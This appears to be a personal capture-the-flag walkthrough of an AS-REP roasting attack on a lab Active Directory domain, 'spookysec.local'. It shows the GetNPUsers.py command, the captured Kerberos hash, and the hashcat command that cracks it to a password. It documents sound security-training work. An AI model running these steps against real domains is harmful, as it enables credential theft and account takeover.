 
Will exploit a feature in Kerberos (i.e. ASREPRosting)

What is  ASReproasting ?__?
- It occurs when a user account has the privilege "Does not require Pre-Authentication" set. 
- This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

I have already gather some accounts that looked juicy let''s try them out 
```
Accounts that really stand out are or kind of looks juicy to meee :
svc-admin@spookysec.local
administrator@spookysec.local
backup@spookysec.local
Administrator@spookysec.local
```

Took Name GetNPUsers.py from Impacket toolkit 
When we run the command
```
GetNPUsers.py -dc-ip 10.10.171.118  spookysec.local/svc-admin -no-pass
```
![[Pasted image 20230913201512.png]]

```
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:5045689025cd6cc8339204bb9e488bba$a4e161834e4cc560dcc850647e1e2585ca295dccb447b573bba4598c3741a79ab08f8807cca4e1f84c643836b37732e9cb351e1250675025b0742f425f6e29a4c3a3cb072bc005b17b65b9b75c4b35011f0ad7f19ff70ea3974e8d7506a931651c3fd2f48823b69c94e5ed1132d9a5dbf223344c1b1fb59c7e2c787412215190f32a2cfae46e75e9963d213476fd1c2c5a9064647d7983e1e6281130e3b632aabc631f335d41c29fe6f0fbcb81f81f80bd7425cdfd0fcaa6e53ce80cf9ff56f0b50e5344ab7dee57f0cbad63a158402709cecbe35d9bc70c7eeb04d743478614c59bd6a5eb8a424b07020c67b7699e369961

```

Now we have to identify the hash module we have to use for that will run this command in hashcat
![[Pasted image 20230913201800.png]]
We have to look for the etype which is 23 in our case (i.e. We have 3 options 7500,13100,18200)
or 
https://hashcat.net/wiki/doku.php?id=example_hashes
![[Pasted image 20230913204434.png]]

Will copy the hash in the txt file and try to crack the hash using HashCat
We got the error with 7500 and 13100 
![[Pasted image 20230913202416.png]]

But Luckily we got away with 18200 so let's hope we can crack it with rockyou.txt
Not able to crack it in linux as i got this error 
* Device #1: Not enough allocatable device memory for this attack.
so will use to crack it with windows 

After Playing with different parameter i was able to run it with this
```
PS C:\Users\pabla\Downloads\hashcat-6.2.6> .\hashcat.exe -m 18200 -a 0 -D 2 .\hashes4.txt .\rockyou.txt -O
```

![[Pasted image 20230913203732.png]]
Password: management2005


